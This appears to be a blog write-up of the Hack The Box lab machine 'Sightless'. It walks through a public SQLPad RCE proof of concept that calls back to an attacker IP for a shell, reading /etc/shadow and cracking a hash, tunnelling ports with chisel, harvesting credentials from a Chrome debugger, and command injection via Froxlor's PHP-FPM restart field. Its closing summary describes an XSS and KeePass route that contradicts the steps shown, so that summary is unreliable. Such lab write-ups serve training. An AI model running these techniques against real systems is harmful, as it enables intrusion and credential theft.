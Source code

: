 ```yaml
---
title: "Sightless Walkthrough(Hack The Box)"
date: 2025-04-03
draft: false
description: "A short Walkthrough for the box Sightless"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```

## Reconnaissance & Enumeration
- Network scan reveals three open ports
![Pasted image 20241221001932.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221001932.png?raw=true)
- Which are `FTP`, `SSH`, `http(80)`. Port `21(FTP)` is very unusual here. 
![three](https://media1.tenor.com/m/zZvOQkS9VysAAAAC/it%E2%80%99s-nice-it%E2%80%99s-different.gif)
- Initial Enumeration reveals that the page uses `nginx/1.18.0`
- Port `80` had a Slightless Titled page, while scrolling through I found a button which redirected to `sqlpad.sightless.htb`. It's a different domain so I quickly added it to my hosts file and visited it.
- Found a RCE vulnerability from google search: [POC](https://github.com/shhrew/CVE-2022-0944.git)

{{< badge >}} CVE-2022-0944 {{< /badge >}}
Template injection in connection test endpoint leads to RCE in GitHub repository sqlpad/sqlpad prior to 6.10.1.

## Exploitation
- First I cloned this [repo](https://github.com/shhrew/CVE-2022-0944) and then I installed all required packages.
```bash
pip3 install -r requirements.txt
```
- Then I execurted the POC and eventually got the shell
```bash
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working directory but, there wasn't any way to transfer it to our machine cause no versions of python found om the system.
- Then I got to know that this is a docker image.
![Pasted image 20241221022335.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022335.png?raw=true)
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd` I got know about the two users with bash permissions
![Pasted image 20241221022519.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022519.png?raw=true)
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it would be a waste of time.
![Pasted image 20241221022725.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221022725.png?raw=true)
- After finding the module, I cracked it with my goto tool
```bash
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then I logged in via SSH
- Got {{< keyword >}} User flag {{< /keyword >}}
![Pasted image 20241221023004.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023004.png?raw=true)
![so-far-so-good](https://media1.tenor.com/m/Ej4XZ8-ThvMAAAAC/positive-bear.gif)

## Privilege Escalation
- While doing post-enumeration I found some interesting local ports using `ss -tunlp` 
- Too many ports don't ya think. Kinda sus if you ask me
![Pasted image 20241221023121.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023121.png?raw=true)
![sus](https://media1.tenor.com/m/RNVIdsfRXz0AAAAd/hamstermert.gif)
- So I decided to forward all the weird looking ports to my machine
- On my machine
```bash
chisel server -p 7001 --reverse
```
- On the target machine
```bash
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- Not gonna lie that's a lot of ports
- It seems that port `8080` is running `Froxlor`, which required credentials to login
{{< details summary="What is Froxlor" >}} The server administration software for your needs. Developed by experienced server administrators, this panel simplifies the effort of managing your hosting platform. {{< /details >}}
- All the remaining ports seems to be suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to `chrome://inspect/#devices` and added all the forwarded ports using configure.
![Pasted image 20241221023839.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221023839.png?raw=true)
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials.
- From the Network tab, I auth request I saw the credentials in plaintext.
![Pasted image 20241221024137.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024137.png?raw=true)
- Used those creds and got into Froxlor
- While hanging around, I discovered an potential endpoint that could lead to command injection
![Pasted image 20241221024348.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024348.png?raw=true)
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command I filled it with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method I modified the command to `chmod 777 /home/root.txt` This will change permissions.
![Pasted image 20241221024823.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024823.png?raw=true)
- Got the {{< keyword >}} User flag {{< /keyword >}} Then I realized that from the start I should've changed permissions for root directory itself
![Pasted image 20241221024851.png](https://github.com/Emp5r0R/Db_of-pics/blob/main/Pasted%20image%2020241221024851.png?raw=true)

## Summary
The **Sightless** machine is an easy-difficulty Linux machine. The walkthrough details the process of exploiting several vulnerabilities to gain root access.

**Initial Foothold:** The website uses an SQLPad instance vulnerable to template injection (CVE-2022-0944), which is 1 used to gain access to a Docker container.   

**SSH Access:** The /etc/shadow file is found within the Docker container, revealing a password hash. Cracking this hash provides SSH access to the host machine.

**Privilege Escalation:** A Froxlor instance vulnerable to Blind XSS (CVE-2024-34070) is exploited to gain access to the FTP service. This FTP service contains a KeePass database. Accessing this database reveals the root SSH keys, granting a privileged shell on the host

{{< typeit >}} I hope you liked my walkthrough if you do please share it with your connections. That's it see you later {{< /typeit >}}

![see-ya](https://media1.tenor.com/m/DF0rzVHsu14AAAAC/xranz45-xranz54.gif)

